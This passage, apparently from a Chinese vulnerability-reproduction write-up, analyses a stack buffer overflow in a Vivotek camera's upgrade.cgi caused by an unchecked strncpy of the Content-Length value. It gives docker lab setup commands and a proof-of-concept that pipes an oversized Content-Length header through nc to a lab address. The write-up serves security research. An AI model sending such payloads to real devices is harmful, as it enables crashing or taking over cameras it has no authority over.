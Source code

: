 解释下逻辑：

截取 Content-Length 的字符串然后用 strncpy 放到 dest 中，但是并没有对字符串做长度检测

我们看看 dest 变量和栈底的距离

[![](assets/1706959011-977937a3052549d896731713f96c1b8c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126170030-5b0bea10-bc29-1.png)

只有 0x38 大小，那肯定能进行栈溢出了

所以我们启动容器，测试漏洞原作者给的 payload

```plain
#启动系统环境
docker compose -f docker-compose-system.yml up
#启动用户环境
docker-compose -f docker-compose-user.yml up
# 等待启动完成，重新打开一个窗口
docker exec -it vivotek-system /bin/bash
```

```plain
#连接测试用户端口
root@6f747349c6c3:~# nc -v 192.168.2.2 80
192.168.2.2 [192.168.2.2] 80 (http) open
#或是浏览器输入 URL：127.0.0.1:8888
```

[![](assets/1706959011-10820ee7a02daf7e9a20191b3075989c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126170034-5da21c86-bc29-1.png)

```plain
#在新窗口中输入 poc
echo -en "POST /cgi-bin/admin/upgrade.cgi\r\nHTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 192.168.2.2 80
```

[![](assets/1706959011-271ab72561bf306b72e7ce07276776e9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126170023-56d452e8-bc29-1.png)

